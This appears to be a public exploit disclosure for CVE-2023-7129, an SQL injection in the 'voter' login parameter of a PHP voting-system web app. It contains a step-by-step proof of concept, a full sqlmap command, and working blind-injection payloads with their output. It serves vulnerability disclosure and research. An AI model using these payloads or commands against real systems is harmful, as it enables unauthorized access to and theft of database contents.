 # CVE-2023-7129_Voting_System-SQL_Injection-2
+ **Exploit Title:** CVE-2023-7129_Voting_System-SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7129

## References: 
+ **CVE-2023-7129:** https://vuldb.com/?id.249132
+ https://www.cve.org/CVERecord?id=CVE-2023-7129

## Description:
Voting System 1.0 allows SQL Injection via parameter 'voter' in "/votesystem/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voters login page: "http://localhost/votesystem/"
+ Fill the voter id and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'voter' parameter to dump the database. 
```
sqlmap -r r.txt -p voter --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: voter (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: voter=11111' OR NOT 1116=1116-- lQWF&password=pass&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: voter=11111' AND (SELECT 4895 FROM (SELECT(SLEEP(5)))tJOZ)-- AnqV&password=pass&login=
---
[18:59:39] [INFO] testing MySQL
[18:59:39] [INFO] confirming MySQL
[18:59:39] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:59:39] [INFO] fetching current database
[18:59:39] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/c0550210-c182-4df0-a091-73366fbaa1f2)
